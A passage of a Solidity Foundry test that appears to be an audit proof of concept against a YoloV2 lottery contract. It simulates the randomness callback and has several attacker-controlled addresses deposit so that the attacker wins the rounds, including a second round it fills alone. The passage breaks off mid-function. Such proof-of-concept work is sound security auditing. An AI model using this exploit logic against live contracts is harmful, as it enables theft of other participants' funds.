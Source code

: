 ```solidity
        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yoloV2).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

        uint40 maximumNumberOfParticipants;
        uint16 roundProtocolFeeBp;
        uint40 cutoffTime;
        address winner;
        IYoloV2.Deposit[] memory deposits;
        IYoloV2.RoundStatus status;
        uint40 drawnAt;
        uint40 numberOfParticipants;
        uint96 roundValuePerEntry;
        uint256 protocolFeeOwed;
        (
            status,
            maximumNumberOfParticipants, 
            roundProtocolFeeBp, 
            cutoffTime, 
            drawnAt, 
            numberOfParticipants, 
            winner, 
            roundValuePerEntry, 
            protocolFeeOwed, 
            deposits
        ) = yoloV2.getRound(1);

        assertTrue(winner == attacker || winner == attacker1 || winner == attacker2 || winner == attacker3);
        console2.log("Protocol fee owed: ", protocolFeeOwed);
        uint40 currentEntryIndexAlice = deposits[0].currentEntryIndex;
        uint40 currentEntryIndexAttacker = deposits[1].currentEntryIndex;
        uint40 currentEntryIndexBob = deposits[2].currentEntryIndex;
        uint40 currentEntryIndexAttacker1 = deposits[3].currentEntryIndex;
        uint40 currentEntryIndexTom = deposits[4].currentEntryIndex;
        uint40 currentEntryIndexAttacker2 = deposits[5].currentEntryIndex;
        uint40 currentEntryIndexJohn = deposits[6].currentEntryIndex;
        uint40 currentEntryIndexAttacker3 = deposits[7].currentEntryIndex;
        console2.log("Alice entry index: ", currentEntryIndexAlice);
        console2.log("Attacker entry index: ", currentEntryIndexAttacker);
        console2.log("Bob entry index: ", currentEntryIndexBob);
        console2.log("Attacker1 entry index: ", currentEntryIndexAttacker1);
        console2.log("Tom entry index: ", currentEntryIndexTom);
        console2.log("Attacker2 entry index: ", currentEntryIndexAttacker2);
        console2.log("John entry index: ", currentEntryIndexJohn);
        console2.log("Attacker3 entry index: ", currentEntryIndexAttacker3);

        /// @notice the attacker guarantees that he wins the second round, as only addresses controled by him are round depositors
        vm.startPrank(attacker4);
        vm.deal(attacker4, valuePerEntryVariable);
        uint256[] memory amountsSecondRound = new uint256[](1);
        amountsSecondRound[0] = valuePerEntryVariable;
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amountsSecondRound);
        vm.stopPrank();

        vm.startPrank(attacker5);
        vm.deal(attacker5, valuePerEntryVariable);
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amountsSecondRound);
        vm.stopPrank();

        vm.startPrank(attacker6);
        vm.deal(attacker6, valuePerEntryVariable);
```